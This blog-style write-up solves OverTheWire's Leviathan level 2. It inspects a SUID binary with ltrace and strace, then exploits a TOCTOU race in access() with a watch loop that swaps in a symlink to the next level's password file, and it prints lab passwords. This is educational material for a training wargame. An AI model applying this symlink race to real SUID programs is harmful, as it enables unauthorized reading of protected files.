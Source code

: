 +++
date = 2020-05-05T18:00:00Z
lastmod = 2020-05-05T18:00:00Z
author ="l1ge"
title = "OverTheWire: Leviathan 2 Write-Up"
subtitle = "Write-up for Leviathan level 2 the FUN way"
feature = "image/leviathan_thumb.jpg"
caption = "Screenshot from Leviathan, 2014. Directed by Andrey Zvyagintsev"
tags = ["write-up", "overthewire", "reverse engineering"]
categories = ["write-ups"]

+++

There are plenty of write-ups out there for Leviathan's Level 2.  But none of them solved it the way I did: **the fun way!** - When you miss the very obvious solution but your qwerky way finally work

Let's first access the level

> ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
>
> password: ougahZi8Ta

# Recon

In the home folder there is an executable named `printfile`. Let's check its permissions

```bash
$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It has the SUID bit (s), which means we can run it with the permissions of its owner leviathan3
Great! so let's try to print leviathan3 password

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

That would have been too easy. For some reason `printfile` doesn't allow us to access a file owned by leviathan3 despite the SUID bit. Let's investigate the binary with the command `ltrace`

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                         = -1
puts("You cant have that file..."You cant have that file...
)                                  = 27
+++ exited (status 1) +++
```

I also tried `strace` to check the system calls

```bash
$ strace ./printfile /etc/leviathan_pass/leviathan3
execve("./printfile", ["./printfile", "/etc/leviathan_pass/leviathan3"], [/* 17 vars */]) = 0
strace: [ Process PID=32706 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
brk(NULL)                               = 0x804b000
brk(0x806c000)                          = 0x806c000
write(1, "You cant have that file...\n", 27You cant have that file...
) = 27
exit_group(1)                           = ?
+++ exited with 1 +++
```

To be honest, I don't understand what most of this means, but one line is pretty straightforward :

```bash
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
```

There is an *access()* function that checks if I can access the file. Let's investigate how that function works.
# Researches
From this [link](https://linux.die.net/man/2/access) I get a few interesting informations:

> The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file. This allows set-user-ID programs to easily determine the invoking user's authority.

OK now I understand why, despite the SUID bit on the `printfile`, I can't access the password file.
I keep reading and stumble upon a serious lead :

> **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

I like that!
I decide to Google more and I discovered that this kind of vulnerabilities was called **TOCTOU** (Time-of-check to time-of-use) and was mostly abused using symlinks.

The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access. But this happens so fast, how can I do that ?

That's when it becomes fun. I could have made a script but in the intro of the Leviathan's series, its said you don't need to write scripts to solve any of the level.

Instead I did it... manually.
# Exploit
I used `tmux` to be able to launch two commands simultaneously. You can also use `screen`

```bash
$watch -n 0.1 "touch /tmp/l1ge/lev3; ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3; rm /tmp/l1ge/lev3"
```

This command runs every 0.1 seconds with`watch -n 0.1`

-  `touch /tmp/l1ge/lev3` - creates a file *lev3*
- `ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3`  - Creates a symlink on *lev3* targetting leviathan3's password file
-  `rm /tmp/l1ge/lev3` - Deletes *lev3*

To sum up, every 0.1 seconds it creates a file with permissions that can pass the *access()* function, symlinks it to the file we really wanna access, deletes it and start all over again.  

My plan is to run `./printfile` on my *lev3* file repeatedly until it magically sync up perfectly and the symlink happens right between *access()* reads the permissions and it gets passed to `cat` to print its content.

And to do that without a script, I'll use my fingers

I fire-up another `tmux` window and here I go, hitting UP ARROW and ENTER as fast I can to execute randomly the command on repeat.

```bash
$ ./printfile /tmp/l1ge/lev3
```

...until I hope the password magically appears. When you find yourself doing something so stupid on a CTF,  a strong inner voice tells you to give up and never touch a computer again.

BUT in less than 1mn the magic happened, that's fast enough to bypass my own pessimism.

![](/image/leviathan2.jpg)

Our password is  **Ahdiemoo1j**

There is of course a most reliable way to solve this level and you can check the other write-ups about it.

Hope you enjoyed!

Cheers,
l1ge.
